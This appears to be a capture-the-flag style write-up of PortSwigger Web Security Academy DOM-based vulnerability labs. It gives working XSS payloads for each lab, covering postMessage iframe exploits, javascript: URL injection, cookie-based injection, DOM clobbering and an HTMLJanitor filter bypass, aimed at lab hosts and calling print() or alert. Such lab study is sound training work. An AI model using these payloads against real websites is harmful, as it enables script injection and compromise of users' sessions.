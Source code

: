 ```yaml
---
description: https://portswigger.net/web-security/dom-based
---
```


# DOM-based vulnerabilities

### Lab: DOM XSS using web messages

This lab demonstrates a simple web message vulnerability.

```
GET / HTTP/1.1

In response:
<script>
window.addEventListener('message', function(e) {
	document.getElementById('ads').innerHTML = e.data;
})
</script>
```

**Exploit Server ->**

```
Body:

    <iframe src="https://ac461f1a1fcc394cc0502b2f003b0077.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### Lab: DOM XSS using web messages and a JavaScript URL

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging.

```
GET / HTTP/1.1

In response:
<script>
window.addEventListener('message', function(e) {
	var url = e.data;
	if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
		location.href = url;
	}
}, false);
</script>
```

**Exploit Server ->**

```
Body:

    <iframe src="https://ac821f511ffa44f6c1acd3b900920030.web-security-academy.net" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```

### Lab: DOM XSS using web messages and JSON.parse

This lab uses web messaging and parses the message as JSON.

```
GET / HTTP/1.1

In response:
<script>
window.addEventListener('message', function(e) {
	var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
	document.body.appendChild(iframe);
	try {
		 d = JSON.parse(e.data);
	} 
	catch(e) {
		return;
	}
	switch(d.type) {
		case "page-load":
			ACMEplayer.element.scrollIntoView();
			break;
		case "load-channel":
			ACMEplayer.element.src = d.url;
			break;
		case "player-height-changed":
			ACMEplayer.element.style.width = d.width + "px";
			ACMEplayer.element.style.height = d.height + "px";
			break;
		}
}, false);
</script>
```

**Exploit Server ->**

```
Body:

    <iframe src="https://acfe1f531fae1d58c0ec34ec001300cd.web-security-academy.net" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### Lab: DOM-based open redirection

This lab contains a DOM-based open-redirection vulnerability.

```
GET /post?postId=10 HTTP/1.1

In response:
<div class="is-linkback">
	<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
</div>
```

`https://ac501f101ef6a935c0bc968a006300ba.web-security-academy.net/post?postId=10&url=https://exploit-ac7a1f721edea978c0ad96c001130002.web-security-academy.net/`

### Lab: DOM-based cookie manipulation

This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages.

```
GET /product?productId=1 HTTP/1.1

In response:
<script>
document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>

---------

GET / HTTP/1.1
Cookie: session=eIHQNBt0MBawwB6U4VNkeUhA1qJO35FX; lastViewedProduct=https://ace51f471f2c9c4dc0f759ee00800004.web-security-academy.net/product?productId=1

In response:
<a href='https://ace51f471f2c9c4dc0f759ee00800004.web-security-academy.net/product?productId=1'>Last viewed product</a><p>|</p>
```

```
<a id=x tabindex=1 onfocus=alert(1)></a>
```

`https://ace51f471f2c9c4dc0f759ee00800004.web-security-academy.net/product?productId=1&' id=x tabindex=1 onfocus=print() random='value'>#x\`

**Exploit Server ->**

```
Body:

    <iframe src="https://ace51f471f2c9c4dc0f759ee00800004.web-security-academy.net/product?productId=1&' id=x tabindex=1 onfocus=print() random='value" onload='window.location.replace("https://ace51f471f2c9c4dc0f759ee00800004.web-security-academy.net/#x");'>
```

### Lab: Exploiting DOM clobbering to enable XSS

This lab contains a DOM-clobbering vulnerability. The comment functionality allows "safe" HTML.

```
GET /post?postId=9 HTTP/1.1

In response:
<script src='resources/js/domPurify-2.0.15.js'></script>
<script src='resources/js/loadCommentsWithDomClobbering.js'></script>
```

Post a comment with this:

```
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```

Post an another random comment and then xss will be executed.

{avatar: 'cid:"onerror=alert(1)//'}

### Lab: Clobbering DOM attributes to bypass HTML filters

This lab uses the HTMLJanitor library, which is vulnerable to DOM clobbering. To solve this lab, construct a vector that bypasses the filter and uses DOM clobbering to inject a vector that calls the print() function.

```
GET /post?postId=8 HTTP/1.1

In response:
<script src='resources/js/htmlJanitor.js'></script>
<script src='resources/js/loadCommentsWithHtmlJanitor.js'></script>
```

Post a comment with this:

```
<form id=x tabindex=0 onfocus=print()><input id=attributes>
```

**Exploit Server ->**

```
Body:

    <iframe src="https://ac9e1fcc1f0a47dec05e09ac00c900d1.web-security-academy.net/post?postId=9" onload="setTimeout(()=>this.src=this.src+'#x',500)"></iframe>
```
